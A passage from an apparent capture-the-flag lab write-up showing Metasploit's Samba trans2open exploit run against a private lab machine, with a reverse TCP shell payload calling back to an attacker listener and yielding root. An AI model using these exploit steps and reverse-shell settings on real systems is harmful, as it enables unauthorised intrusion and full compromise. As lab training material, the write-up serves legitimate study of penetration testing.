   9   linux/x86/meterpreter/bind_ipv6_tcp_uuid                   manual  No     Linux Mettle x86, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   10  linux/x86/meterpreter/bind_nonx_tcp                        manual  No     Linux Mettle x86, Bind TCP Stager
   11  linux/x86/meterpreter/bind_tcp                             manual  No     Linux Mettle x86, Bind TCP Stager (Linux x86)
   12  linux/x86/meterpreter/bind_tcp_uuid                        manual  No     Linux Mettle x86, Bind TCP Stager with UUID Support (Linux x86)
   13  linux/x86/meterpreter/reverse_ipv6_tcp                     manual  No     Linux Mettle x86, Reverse TCP Stager (IPv6)
   14  linux/x86/meterpreter/reverse_nonx_tcp                     manual  No     Linux Mettle x86, Reverse TCP Stager
   15  linux/x86/meterpreter/reverse_tcp                          manual  No     Linux Mettle x86, Reverse TCP Stager
   16  linux/x86/meterpreter/reverse_tcp_uuid                     manual  No     Linux Mettle x86, Reverse TCP Stager
   17  linux/x86/metsvc_bind_tcp                                  manual  No     Linux Meterpreter Service, Bind TCP
   18  linux/x86/metsvc_reverse_tcp                               manual  No     Linux Meterpreter Service, Reverse TCP Inline
   19  linux/x86/read_file                                        manual  No     Linux Read File
   20  linux/x86/shell/bind_ipv6_tcp                              manual  No     Linux Command Shell, Bind IPv6 TCP Stager (Linux x86)
   21  linux/x86/shell/bind_ipv6_tcp_uuid                         manual  No     Linux Command Shell, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   22  linux/x86/shell/bind_nonx_tcp                              manual  No     Linux Command Shell, Bind TCP Stager
   23  linux/x86/shell/bind_tcp                                   manual  No     Linux Command Shell, Bind TCP Stager (Linux x86)
   24  linux/x86/shell/bind_tcp_uuid                              manual  No     Linux Command Shell, Bind TCP Stager with UUID Support (Linux x86)
   25  linux/x86/shell/reverse_ipv6_tcp                           manual  No     Linux Command Shell, Reverse TCP Stager (IPv6)
   26  linux/x86/shell/reverse_nonx_tcp                           manual  No     Linux Command Shell, Reverse TCP Stager
   27  linux/x86/shell/reverse_tcp                                manual  No     Linux Command Shell, Reverse TCP Stager
   28  linux/x86/shell/reverse_tcp_uuid                           manual  No     Linux Command Shell, Reverse TCP Stager
   29  linux/x86/shell_bind_ipv6_tcp                              manual  No     Linux Command Shell, Bind TCP Inline (IPv6)
   30  linux/x86/shell_bind_tcp                                   manual  No     Linux Command Shell, Bind TCP Inline
   31  linux/x86/shell_bind_tcp_random_port                       manual  No     Linux Command Shell, Bind TCP Random Port Inline
   32  linux/x86/shell_reverse_tcp                                manual  No     Linux Command Shell, Reverse TCP Inline
   33  linux/x86/shell_reverse_tcp_ipv6                           manual  No     Linux Command Shell, Reverse TCP Inline (IPv6)

<b>msf5 exploit(linux/samba/trans2open) ></b> set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
<b>msf5 exploit(linux/samba/trans2open) ></b> show options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.222.130  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  192.168.222.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


<b>msf5 exploit(linux/samba/trans2open) ></b> run

[*] Started reverse TCP handler on 192.168.222.129:4444 
[*] 192.168.222.130:139 - Trying return address 0xbffffdfc...
[*] 192.168.222.130:139 - Trying return address 0xbffffcfc...
[*] 192.168.222.130:139 - Trying return address 0xbffffbfc...
[*] 192.168.222.130:139 - Trying return address 0xbffffafc...
[*] Command shell session 5 opened (192.168.222.129:4444 -> 192.168.222.130:1030) at 2020-12-08 10:22:39 -0500

<p style="color:#05c820">
whoami
root
pwd
/tmp
</p>

</pre>
</details>

Set the necessary options, and run the exploit!
Congrats Matey! You are now root. Hope you enjoyed the first machine of K1optr1x series! 



[1]: https://i.imgur.com/4VJ39cH.png
[2]: https://i.imgur.com/O13Jjr0.png
[3]: https://i.imgur.com/9gwmLN0.png
[4]: https://i.imgur.com/HEWW8uU.png
